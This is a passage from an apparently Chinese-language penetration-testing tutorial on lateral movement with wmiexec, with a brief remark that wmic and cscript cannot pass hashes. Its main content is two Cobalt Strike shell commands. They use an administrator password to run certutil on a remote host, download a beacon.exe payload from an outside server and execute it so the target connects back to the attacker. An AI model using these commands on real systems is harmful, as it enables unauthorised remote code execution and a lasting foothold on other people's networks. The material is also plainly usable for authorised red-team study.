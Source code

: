 ![](img/7.png)

**缺点**：wmic和cscript都无法进行`hash`传递

#### wmiexec

第三方软件 (交互式&单执行)，此方法无法在`cs`中执行后回显,但可利用文件下载命令上线cs：

```bash
# 执行命令将文件从远程服务器下载到本地
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"


# 执行命令并上线，跳过回显
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c c:/beacon.exe"
```
